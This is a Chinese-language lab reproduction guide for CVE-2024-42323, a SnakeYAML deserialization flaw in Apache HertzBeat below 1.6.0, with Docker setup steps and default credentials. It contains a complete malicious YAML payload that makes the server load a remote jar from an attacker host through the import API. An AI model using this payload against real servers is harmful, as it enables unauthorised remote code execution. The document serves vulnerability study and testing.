

# Apache-HertzBeat SnakeYaml反序列化漏洞(CVE-2024-42323)

Apache HertzBeat 是开源的实时监控工具。受影响版本中由于使用漏洞版本的 SnakeYAML 解析用户可控的 yaml 文件，经过身份验证的攻击者可通过 /api/monitors/import、/api/alert/defines/import 接口新增监控类型时配置恶意的 yaml 脚本远程执行任意代码。

影响范围：

* Apache HertzBeat < 1.6.0

参考链接：

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## 漏洞环境

运行漏洞环境:

```
docker-compose up -d 
```

运行完成后，将启动一个`HertzBeat 1.4.4`版本的服务，服务开启之后，访问`http://your-ip:1157/dashboard`即可查看`HertzBeat`的登录界面，默认密码：admin/hertzbeat

## 漏洞复现

选择任何监控点击导入监控



修改上传yaml文件中的value值：

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null

```


`/api/monitors/import`可以触发SnakeYaml反序列化漏洞

* 需要在`jdk11`环境下编译`https://github.com/fei9747/yaml-payload/`项目，生成利用`payload`
* example : 这里生成的`payload`执行的本地命令为: `touch /tmp/success`


成功执行代码


